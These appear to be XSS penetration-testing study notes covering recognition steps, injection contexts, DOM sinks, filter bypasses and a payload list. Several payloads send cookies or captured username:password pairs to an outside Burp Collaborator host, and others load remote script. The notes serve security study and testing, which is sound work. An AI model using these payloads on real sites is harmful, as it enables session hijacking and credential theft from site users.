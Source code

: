 # References
- Michael Sommer videos
- [Nahamsec Video](https://www.youtube.com/watch?v=ej2O4lOUzRc)
- [z3nsh3ll Playlist](https://www.youtube.com/playlist?list=PLWvfB8dRFqbZG5cw2OrnEmzSzorxRuxFV)
- https://public-firing-range.appspot.com/
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Tools and Burp Extensions
- Web Developer Tools
- DOM Invader - Burp Suite Browser Extension

# What is it?
- When an attacker is able to inject javascript into a website
- Three types:
    - Reflected
    - Stored
    - DOM

# Recognition
- Remember that HTML parsing occurs before Javascript parsing
- Figure out where the input ends up. Is it a tag attribute, a script tag, etc?
- Are certain tags or attributes blocked? Use intruder and an XSS cheatsheet to find unblocked tags/attributes
- Is there any special handling for data? Do urls get turned into links?
- How are special characters handled? insert '<>:;"\/ to find out if they are being encoded.
- Where to look:
    - Any input field that is reflected or stored somewhere
    - Url parameters
    - HTTP headers
    - Form fields
    - Source code: Check server response, Elements tab, Network tab for requests, loaded documents and JS files
```html
'"<a><<adsa>>\';//
```
- Introduce an event handler
```html
<u/onmouseover=alert(1)>test123
<img src=x onerror=alert(1)>
<!-- Other functions besides alert() can be used -->
Confirm
import('https://mysite.com/1.js')
print()
<!-- Example Below -->
<img src=x onerror=import('https://mysite.com/1.js')>
<!-- -->
```
- Every parameter in a url is a possible input field for XSS payloads
- Input a payload in the field and use `Control+F` to see if it reflects
- After that, use `Inspect` to check the DOM, also check the source code with the`view-source` functionality, or the HTTP response
- Determine the context where the input is seen 
- Figure out how to execute javascript within the context
- Determine what is getting encoded: ' " / \ < > ?
```html
test123;//
'"<a><<adsa>>\';//
</script>test123<img src=x onerror=alert(1)>
'; alert(1)//test123
%23f5f5f5</style>test123<script>alert(1)</script>
javascript:alert(document.cookie)
<iframe src="vulnerable-website#" onload="this.src+='<img src=1 onerror=print()>'" width="800" height="800"></iframe>
<iframe src="vulnerable-website" onload=this.style.width='100px'>
<img src=1 oNeRrOr=alert`1`>
"onmouseover="alert(1)
{{$on.constructor('alert(1)')()}}
&apos;-alert(1)-&apos;
${alert(1)}
'-alert()-'
\'-alert(1)//
\"-alert(1)}//
'"><svg/onload=fetch(`//url/${encodeURIComponent(document.cookie)}`)>
```
- Check for other parameters in the source code to find more possible injection vectors
- Test all the fields that are presented within the webpage
- Check the element and see if it is being encoded `&quot;` as an HTML entity
- Try to `Edit as HTML` and see if the special characters got html encoded
- There might be controls put in place via the browser but not the API
- Some payloads might not be allowed via the UI but sending them via the HTTP request on burp suite bypasses these controls

# Some Exploit payloads
- Payload 1
```js
var xhr = new XMLHttpRequest();
xhr.onload=function(){
    const x = new XMLHttpRequest();
    x.open('GET', 'url=?'+btoa(this.responseText));
    x.send();
};
xhr.open('GET', 'URL');
xhr.send();
```
- Payload 2
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://burp-collaborator/?'+btoa(document.cookie));
xhr.send();
```
- Payload 3
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- Payload 4
```html
<!--watch video "CSRF XSS payload example"-->
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 5);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'someemail@email.net');
data.append('website','https://website.net');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
- Payload 5
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">
```
- Payload 6
```html
<script>
location = 'url-here';
</script>
```
- [CSRF XSS payload example](https://www.youtube.com/watch?v=N_87S9XVy0w)
- [Password Autofill-Payload example](https://www.youtube.com/watch?v=I6TOtXSOZ90)

# XSS Context
- Remember that HTML parsing occurs before Javascript parsing
- XSS in HTML tag attribute: Find a way to terminate the attribute and add a new one with an event handler that allows you to inject the payload
- href attribute - javascript:alert()
- XSS in Javascript template literals ``
```js
// Use the ${...} to insert the payload
${insert-payload-here}
```
- Try double curly brackets and see if it is evaluated `{{ 1 + 1 }}`
- Inside eval
- Are the angle brackets <> getting encoded/escaped? Is the encoding recursive or just the first instance? Try `<><img src=x onerror=alert()>`
- Hidden field or canonical link: Use accessKey event `accessKey="X" onclick="alert(1)"`[Portswigger Article](https://portswigger.net/research/xss-in-hidden-input-fields)
- Inside a quoted tag attribute Use HTML-encoding: After the HTML tags and attributes are parsed, the browser will perform HTML-decoding of the tag attribute values `&apos;-alert()-&apos;`

# Sinks
- innerHTML
    - On modern web browsers `script` elements inserted with innerHTML are sanitized
    - On modern web browsers `onload` events inside `svg` elements inserted with innerHTML are sanitized 
    - use `<img>` or `<iframe>` as viable options to inject a payload
    - [W3 HTML5 - innerHTML](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
    - [Developer Mozilla - innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- Sources and sinks in third-party dependencies
    - Each one has it quirks, investigate about them.
    - jQuery
        - attr(): this function changes the attributes of DOM elements. If the sink is an `href` attribute, then inject a malicious `javascript:payload-here`
        - $(): this function selector joined with the insecure usage of the `contains` method could be vulnerable due to malicious DOM element injection. Example involving `location.hash`, payload: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - AngularJS
        - ng-app: If this attribute is used on a HTML element AngularJS will execute javascript inside double curly braces `{{$on.constructor('alert(1)')()}}`
# Obfuscation
- Some payloads may need to be obfuscated to bypass WAF
```html
<img src=1 oNeRrOr=alert`1`>
```
